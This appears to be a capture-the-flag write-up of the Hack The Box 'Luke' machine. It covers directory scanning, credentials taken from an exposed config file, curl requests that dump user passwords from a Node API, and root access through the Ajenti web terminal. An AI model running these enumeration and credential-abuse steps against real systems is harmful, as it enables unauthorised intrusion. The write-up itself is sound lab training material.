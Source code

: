 ```yaml
---
layout: post
title:  "HTB - Luke"
date:   2019-09-01 20:00 +0100
tags: writeups
---
```

Link: https://www.hackthebox.eu/home/machines/profile/190
IP: 10.10.10.137

<!--more-->

## Recon
```
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
22/tcp   open  ssh?  
3000/tcp open  http    Node.js Express framework  
8000/tcp open  http    Ajenti http control panel  
```
The FTP holds a note from Derry to Chihiro.

### Dirb scan for main
```
START_TIME: Sun Sep  1 15:04:07 2019
URL_BASE: http://10.10.10.137/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137/ ----
==> DIRECTORY: http://10.10.10.137/css/                                                              
+ http://10.10.10.137/index.html (CODE:200|SIZE:3138)                                                
==> DIRECTORY: http://10.10.10.137/js/                                                               
+ http://10.10.10.137/LICENSE (CODE:200|SIZE:1093)                                                   
+ http://10.10.10.137/management (CODE:401|SIZE:381)                                                 
==> DIRECTORY: http://10.10.10.137/member/                                                           
==> DIRECTORY: http://10.10.10.137/vendor/   
```

### Dirb scan for 3000:
```
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)                                                  
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56) 
```

### gobuster for main
Important: **Check for extensions! (-x)**  
`gobuster dir -u http://10.10.10.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html`  
```
===============================================================
2019/09/01 15:58:46 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
Progress: 163025 / 220561 (73.91%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
```

This yields `http://10.10.10.137/config.php`, which holds creds:
`root:Zk6heYCyv6ZE9Xcg`
These creds can be stuffed into :3000/login, but using username *root* doesn't work... but *admin* does :D

`curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login`

The resulting token can be used to enumerate users:
`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users`

```json
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

By enumerating everything on port 3000, one can observe that the endpoint `/user/{username}` exists. So we can query for every single user:

`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users/admin`  
which yields:
```json 
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
with these, we can try to login to IP/management and find a config.json. That one holds credentials as well (looks like munin?)  
`root:KpMasng6S5EtTy9Z`  
With that credentials, one can login to :8000 (Ajenti).

Ajenti provides a comfortable web interface for management - including a *Terminal* (located under *Tools*).  
Opening that Terminal yields a root shell on the system. Done!